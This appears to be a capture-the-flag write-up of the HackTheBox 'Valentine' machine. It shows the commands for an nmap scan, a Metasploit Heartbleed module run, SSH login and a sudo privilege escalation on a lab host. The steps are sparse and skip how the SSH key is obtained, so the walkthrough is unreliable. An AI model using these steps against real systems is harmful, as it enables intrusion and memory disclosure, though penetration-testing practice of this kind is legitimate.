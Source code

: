 # HackTheBox - Valentine

## Challenge Information

| Field | Value |
|-------|-------|
| **Platform** | HackTheBox |
| **Challenge Name** | Valentine |
| **Category** | Linux Exploitation |
| **Difficulty** | Easy |
| **Points** | 20 |
| **Author** | ch4p |
| **Date Completed** | 2025-08-23 |

## Objective 🎯

Valentine is a Linux machine with a vulnerable service. The goal is to exploit the vulnerability to gain system access and obtain both user and root flags. Heartbleed exploitation! ❤️

## Initial Reconnaissance

### Target Information
- **IP Address**: 10.10.10.79
- **OS**: Linux
- **Services**: SSH, HTTP, HTTPS

### Tools Used
- Nmap
- Heartbleed exploit
- SSH

### Commands/Steps
```bash
nmap -sC -sV 10.10.10.79
```

## Methodology

### Step 1: Port Scan
```bash
nmap -sC -sV 10.10.10.79
```

### Step 2: Heartbleed Exploitation
```bash
msfconsole
use auxiliary/scanner/ssl/openssl_heartbleed
set RHOSTS 10.10.10.79
run
```

### Step 3: SSH Access
```bash
ssh hype@10.10.10.79
```

### Step 4: Privilege Escalation
```bash
sudo -l
sudo /usr/bin/tee
```

### Step 5: Find Flags
```bash
cat /home/hype/user.txt
cat /root/root.txt
```

## Solution

### Final Answer
- **User Flag**: [REDACTED]
- **Root Flag**: [REDACTED]

## Key Learnings

- Heartbleed vulnerability exploitation
- SSL/TLS security issues
- SSH key extraction
- Sudo privilege escalation

## Tags

`#hackthebox` `#linux` `#heartbleed` `#ssl` `#ssh` `#easy`
